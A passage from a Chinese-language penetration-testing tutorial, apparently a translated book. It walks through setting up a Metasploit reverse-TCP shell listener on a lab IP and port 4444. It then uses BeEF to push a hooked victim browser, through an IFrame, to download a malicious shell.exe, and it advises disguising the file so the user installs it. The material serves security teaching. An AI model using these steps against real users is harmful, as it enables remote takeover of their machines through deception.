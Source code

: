 1.  现在我们已经创建了我们的漏洞利用，我们需要设置我们的监听器。我们通过打开 MSF 控制台并输入 `use exploit/multi/handler` 来完成此操作。然后，我们将有效载荷设置为与 `msfvenom` 中使用的相同：`set payload windows/shell/reverse_tcp`。接下来，我们需要将 `LHOST` 设置为 `172.16.69.133`，并将 `LPORT` 设置为 `4444`。一旦所有选项设置完成，输入 `exploit`，监听器就会启动：

![](img/00281.jpeg)

1.  现在我们回到 BeEF 控制台，并决定如何将用户引导到我们的 `shell.exe` 文件。我们可以执行重定向或打开新窗口，但在本例中，我们将使用 IFrame。当我们点击该命令时，会弹出一个文本框让我们输入 URL。在这里，我们输入刚刚创建的 `shell.exe` 文件的路径。在我们的示例中，它是 `http://172.16.69.133`：

![](img/00284.jpeg)

1.  当我们点击 **执行** 时，受害者的浏览器将收到一个提示，必须决定是否打开或保存文件。当然，用户不必打开我们的文件，如果他们不打开，反向 shell 就不会启动。这仅作为一个示例，但我们可以做很多事情来鼓励用户，让它看起来像他们想要安装的东西。进行攻击时，创造力是关键。现在，假设我们的受害者确实打开了我们的文件：

